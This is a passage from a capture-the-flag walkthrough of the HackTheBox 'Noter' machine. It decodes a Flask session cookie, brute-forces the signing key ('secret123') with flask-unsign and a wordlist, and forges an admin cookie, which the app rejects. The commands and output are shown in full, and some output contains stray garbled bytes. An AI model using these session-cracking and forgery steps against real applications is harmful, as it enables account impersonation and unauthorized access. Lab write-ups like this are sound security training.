 Then:

```java
// eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiS2FzaG1pciJ9.YtwoNA.0OiTKhEJh8hqXC4afvMG-_o-xHI
```

```json
{"logged_in":true,"username":"Kashmir"}bÜ(4
..2¡..|.¥Âá§ï0j1.
```

From my experience at [DefCampCTF2022](https://kashmir54.github.io/ctfs/DefCampCTF2022/#web-intro) looks like Flask cookie. What do I look for in this case? It seems like a JWT, but instead it only has the first part in base64 and then all are bytes for the signature. So first thing it comes to my mind while waiting for the gobuster is to crack that session key with the tool [flask-unsign](https://github.com/Paradoxis/Flask-Unsign):

By default it will take the rockyou.txt, so that is our first try:

```bash
kali@kali:~/Desktop/HackTheBox/Noter$ flask-unsign --unsign --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiS2FzaG1pciJ9.YtwoNA.0OiTKhEJh8hqXC4afvMG-_o-xHI'
[*] Session decodes to: {'logged_in': True, 'username': 'Kashmir'}
[*] No wordlist selected, falling back to default wordlist..
[*] Starting brute-forcer with 8 threads..
[*] Attempted (2048): -----BEGIN PRIVATE KEY-----;r
[+] Found secret key after 16512 attemptsniquenothing
'secret123'
```

That was an easy secret key. Now we can change the user and sign the session cookie again, so we can impersonate the admin:

```bash
kali@kali:~/Desktop/HackTheBox/Noter$ flask-unsign --sign --cookie "{'logged_in': True, 'username': 'admin'}" --secret 'secret123'

eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.YtwsfA.LeiGwMINxvPd5Jhaq2A_AKu1z4U
```

Used it in the web app but it didn't work.

<p align="center">
  <img src="/images/walkthroughs/hackthebox/noter/4_1.png" width="90%"/>
</p>
